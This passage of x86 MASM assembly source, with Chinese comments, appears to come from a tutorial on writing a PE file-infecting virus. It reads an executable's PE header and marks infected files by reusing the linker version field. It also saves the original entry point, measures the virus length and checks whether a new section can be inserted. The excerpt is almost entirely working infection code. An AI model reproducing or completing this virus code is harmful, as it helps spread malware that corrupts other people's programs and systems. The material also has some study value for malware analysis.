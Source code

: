     push 0h
    lea eax, ReadCount[ebp]
    push eax
    push 4h
    lea eax, PEAddress[ebp]
    push eax
    push OpenHandle[ebp]
    call ZReadFile ; 读取PE头偏移
    cmp eax, 0h
    jz read_err

    push FILE_BEGIN
    push 0h
    push PEAddress[ebp]
    push OpenHandle[ebp]
    call ZSetFilePointer ; 指向PE头开始处

    mov HeadLength[ebp], sizeof PEHead + sizeof SectionTable
; HeadLength[ebp]中是PE头和节表的长度和。
    push 0h
    lea eax, ReadCount[ebp]
    push eax
    push HeadLength[ebp]
    lea eax, PEHead[ebp]
    push eax
    push OpenHandle[ebp]
    call ZReadFile ; 读取PE头和节表
    cmp eax, 0h
    jz read_err

    cmp DWORD ptr PEHead[ebp].Signature, IMAGE_NT_SIGNATURE ; 是否PE格式
; IMAGE_NT_SIGNATURE应为"PE/0/0"。
    jnz end_modify

    cmp WORD ptr PEHead[ebp + 1ah], 0C05h ; 是否已经感染
; PEHead[ebp + 1ah]处的值代表的是该程序的Linker的版本，在MASM32 V8.0中版本为0C05h，而绝大多数程序， 这个值是不相等的，所以用来判断是否感染。
    jz end_modify

; 下面是感染EXE的代码
    mov eax, PEHead[ebp].OptionalHeader.AddressOfEntryPoint 
; PEHead[ebp].OptionalHeader.AddressOfEntryPoin是程序入口地址的RVA。
    add eax, PEHead[ebp].OptionalHeader.ImageBase 
; PEHead[ebp].OptionalHeader.ImageBase是程序载入内存的基地址。
; 两个值相加得到程序入口的实际地址。
    mov Ori_Entry[ebp], eax ; 保存原程序入口点

    mov eax, sizeof PEHead
    mov SectionAddress[ebp], eax ; 节表开始地址
    mov VirusLength[ebp], offset virus_end - offset virus_start ; 病毒长度

    movzx eax, PEHead[ebp].FileHeader.NumberOfSections ; 节的个数
    inc eax
    mov ecx, 28h 
; 节表中每个节定义占28h。
    mul ecx ; eax = eax * ecx
    add eax, SectionAddress[ebp]
    add eax, PEAddress[ebp]
    cmp eax, PEHead[ebp].OptionalHeader.SizeOfHeaders ; 看是否还能插入一个节
    ja end_modify
